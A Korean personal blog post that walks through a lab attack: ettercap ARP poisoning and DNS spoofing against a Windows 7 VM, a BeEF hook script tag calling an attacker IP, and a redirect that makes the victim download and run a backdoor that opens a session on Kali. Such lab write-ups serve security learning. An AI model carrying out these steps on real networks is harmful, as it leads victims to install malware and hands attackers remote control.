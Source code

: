 ```yaml
---
layout: post
title: DNS Spoofing & 악성코드 배포
description: "DNS_Spoofing"
modified: 2017-07-26
tags: [penetration_testing,Metasploit,DNS_Spoofing,Backdoor]
categories: [penetration testing]
image:
    feature:
    credit:
    creditlink:
author:
    name: "박준영"
    bio: 아아 BOB되고싶다
    email: pjya0321@naver.com
    github: jy31241
    site: https://www.instagram.com/jypark_321/
---
```


크게 두 단계로 나누면  
1.내장툴 ettercap 을 사용해서 DNS스푸핑 공격을 한다.  
2.beef를 사용해서 백도어가 다운되게 리다이렉션 한다.  

![1]({{ site.url }}/assets/postimage/DNS1.png)

etter.dns 파일을 위와같이 수정해준다.  

![2](assets/postimage/DNS2.png)

아파치서버를 실행시킨다.  

![3](assets/postimage/DNS3.png)

칼리리눅스 내장툴인 ettercap 을 실행시킨다.  

1. eth0을 잡고 호스트를 스캔한다.  
2. 게이트웨이를 타겟1에/ 공격대상을 타겟2로 설정해준다.  
3. ARP 포지셔닝에서 Sniff remote connection을 체크한다.  
4. 플러그인에서 dns_spoof 를 설정한다.  

![4](assets/postimage/DNS4.png)

공격대상인 윈7 가상환경에서 네이버에 접속하면 미리 만들어둔  
/var/www/html 경로의 index.html 의 내용이 연결된다.  

![5](assets/postimage/DNS5.png)

Beef 서버를 실행시키고. Hook URL을 위에 연결된 index.html에 넣어준다.  

script src="http://192.168.254.129:3000/hook.js"type="text/javascript"  

![6](assets/postimage/DNS6.png)

/var/www/html 경로에 악성백도어를 저장하고,  
UI패널을 열어서 (id/pw = beef/beef) 로그인을 한 뒤,리다이렉션 주소에 악성백도어 파일명.확장자명 을 입력한다.  
그리고 적용시킨다.  

![7](assets/postimage/DNS7.png)

윈도우7 화면에는 kangol.exe 파일이 다운로드가 되었다.  
(중간에 네이버처럼 보이도록 연결될 html을 수정했다)  

![8](assets/postimage/DNS8.png)


윈도우7에서 다운받은 백도어를 실행시키면 칼리에서 세션이 열린것을 확인 할 수 있다.  



